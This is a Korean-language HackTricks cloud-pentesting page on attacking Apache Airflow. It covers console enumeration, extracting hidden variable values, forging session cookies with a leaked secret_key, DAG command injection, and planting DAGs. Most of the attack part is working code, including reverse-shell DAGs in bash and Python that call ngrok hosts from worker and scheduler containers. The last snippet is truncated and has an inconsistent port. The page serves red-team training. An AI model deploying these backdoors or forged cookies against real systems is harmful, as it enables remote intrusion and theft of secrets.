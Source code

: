 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 사용됩니다. 데이터 파이프라인의 맥락에서 "조정"이라는 용어는 다양한 출처에서 발생하는 복잡한 데이터 워크플로우를 정리하고, 조정하며, 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리되고 소비 가능한 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신 러닝 모델 등 다양한 애플리케이션에서 광범위하게 사용되며, 이는 빅 데이터 애플리케이션의 기능에 필수적입니다.

기본적으로 Apache Airflow는 **무언가**(이벤트, 크론)가 발생할 때 **코드 실행을 예약할 수 있게 해줍니다**.

### Local Lab

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)에서 **docker-compose 구성 파일을 사용하여** 완전한 apache airflow 도커 환경을 시작할 수 있습니다. (MacOS를 사용하는 경우 도커 VM에 최소 6GB의 RAM을 할당해야 합니다).

#### Minikube

**apache airflow**를 실행하는 쉬운 방법 중 하나는 **minikube로 실행하는 것입니다**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow는 **민감한 정보**를 구성에 저장할 수 있으며, 약한 구성이 있을 수 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow를 공격하기 전에 **권한이 어떻게 작동하는지** 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

**웹 콘솔에 접근할 수 있다면** 다음 정보 중 일부 또는 전부에 접근할 수 있습니다:

* **변수** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* **연결** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
* `http://<airflow>/connection/list/`에서 접근
* [**구성**](./#airflow-configuration) (여기에 **`secret_key`** 및 비밀번호와 같은 민감한 정보가 저장될 수 있습니다)
* **사용자 및 역할** 목록
* **각 DAG의 코드** (흥미로운 정보가 포함될 수 있습니다)

#### Retrieve Variables Values

변수는 Airflow에 저장될 수 있어 **DAGs**가 **값에 접근**할 수 있습니다. 이는 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 `http://<airflow>/variable/list/`의 GUI에서 접근할 수 있습니다.\
Airflow는 기본적으로 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **값**이 **별표**로 표시되는 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**를 통해 **가져올 수** 있습니다 (DB 접근이 필요함), **임의의 DAG** 실행, **API**를 통해 변수 엔드포인트에 접근 (API가 활성화되어야 함), **심지어 GUI 자체에서도!**\
GUI에서 이러한 값에 접근하려면 **접근하고자 하는 변수**를 선택하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
또 다른 방법은 **검색 필터링**을 사용하여 **숨겨진 값**에 대해 **브루트포스**를 수행하는 것입니다:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

**`expose_config`** 구성이 **True**로 설정되어 있다면, **User** 역할 및 **이상**에서 **웹에서 구성**을 **읽을 수** 있습니다. 이 구성에는 **`secret_key`**가 나타나며, 이는 이 유효한 키를 가진 사용자가 **다른 사용자 계정을 가장하기 위해 자신의 서명된 쿠키를 생성할 수 있음을 의미합니다**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 백도어 (Airflow 작업자에서 RCE)

**DAGs가 저장된** 위치에 **쓰기 권한**이 있는 경우, **역방향 셸**을 보내는 **하나를 생성**할 수 있습니다.\
이 역방향 셸은 **airflow 작업자 컨테이너** 내에서 실행될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 백도어 (Airflow 스케줄러의 RCE)

코드의 **루트에서 실행되도록 설정**하면, 이 글을 작성하는 순간에, DAG의 폴더에 넣은 후 몇 초 후에 **스케줄러에 의해 실행**됩니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 생성

만약 **DAG 클러스터 내의 머신을 침해**하는 데 성공한다면, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있으며, 이 스크립트는 **DAG 클러스터 내의 나머지 머신에 복제**됩니다.

#### DAG 코드 주입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 제대로 코딩되지 않았다면 **명령어 주입에 취약**할 수 있습니다.\
이것이 이 CVE에서 발생한 일입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG에서 명령어 주입을 찾기 시작하기 위해 알아야 할 모든 것**은 **매개변수**가 **코드 `dag_run.conf.get("param_name")`**로 **접근**된다는 것입니다.

게다가, 동일한 취약점이 **변수**에서도 발생할 수 있습니다(충분한 권한이 있다면 GUI에서 **변수의 값을 제어**할 수 있습니다). 변수는 **다음과 같이 접근됩니다**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
예를 들어 bash 명령어 안에서 사용된다면, 명령어 주입을 수행할 수 있습니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
